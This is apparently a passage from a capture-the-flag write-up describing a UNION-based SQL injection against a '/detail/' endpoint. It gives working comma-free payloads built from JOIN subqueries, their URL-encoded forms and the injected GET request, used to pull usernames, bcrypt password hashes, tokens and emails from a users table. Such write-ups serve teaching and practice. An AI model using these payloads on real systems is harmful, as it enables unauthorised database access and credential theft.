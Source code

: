 And with that, I took the following string:

`UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e JOIN (SELECT 6)f JOIN (SELECT 7)g`

And formatted it as stated above:

`UNION%20SELECT%20*%20FROM%20(SELECT%201)a%20JOIN%20(SELECT%202)b%20JOIN%20(SELECT%203)c%20JOIN%20(SELECT%204)d%20JOIN%20(SELECT%205)e%20JOIN%20(SELECT%206)f%20JOIN%20(SELECT%207)g`

Then finally injected it into the URL...

`GET /detail/1,2%20UNION%20SELECT%20*%20FROM%20(SELECT%201)a%20JOIN%20(SELECT%202)b%20JOIN%20(SELECT%203)c%20JOIN%20(SELECT%204)d%20JOIN%20(SELECT%205)e%20JOIN%20(SELECT%206)f%20JOIN%20(SELECT%207)g-- HTTP/2`

And I got a solid union injection!!!

![Union](/img/obj12-4/img2.png)

NOW WE'RE COOKING WITH GAS!


So with a little magic...

I can turn this:
`UNION SELECT * FROM (SELECT 1)a JOIN (SELECT name from users where id = 1)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT password from users where id = 1)e JOIN (SELECT 6)f JOIN (SELECT 7)g`

Into this...
`UNION%20SELECT%20*%20FROM%20(SELECT%201)a%20JOIN%20(SELECT%20name%20from%20users%20where%20id%20=%201)b%20JOIN%20(SELECT%203)c%20JOIN%20(SELECT%204)d%20JOIN%20(SELECT%20password%20from%20users%20where%20id%20=%201)e%20JOIN%20(SELECT%206)f%20JOIN%20(SELECT%207)g`

And I get this:

![Another successful union](/img/obj12-4/img3.png)


I got a password! I'll fast forward a bit more and state that this is a BCrypt hash that takes a long time to crack, even with my graphics card which is nothing to sneeze at, and I never managed to get anything from this. Oh well, back out of that rabbit hole.


Now with that, I can go even further.

`UNION SELECT * FROM (SELECT 1)a JOIN (SELECT name from users where id = 1)b JOIN (select token from users where id = 1)c JOIN (SELECT email from users where id = 1)d JOIN (SELECT password from users where id = 1)e JOIN (SELECT 6)f JOIN (SELECT 7)g`

Which becomes:

`UNION%20SELECT%20*%20FROM%20(SELECT%201)a%20JOIN%20(SELECT%20name%20from%20users%20where%20id%20=%201)b%20JOIN%20(select%20token%20from%20users%20where%20id%20=%201)c%20JOIN%20(SELECT%20email%20from%20users%20where%20id%20=%201)d%20JOIN%20(SELECT%20password%20from%20users%20where%20id%20=%201)e%20JOIN%20(SELECT%206)f%20JOIN%20(SELECT%207)g`

And now I get even more info, such as the email address (in this case, it was `root@localhost`) and the token if it ever appears! In hindsight, I probably could have guessed the email before, but even still it wouldn't help anything because I'd need to have access to the token to do anything of interest.
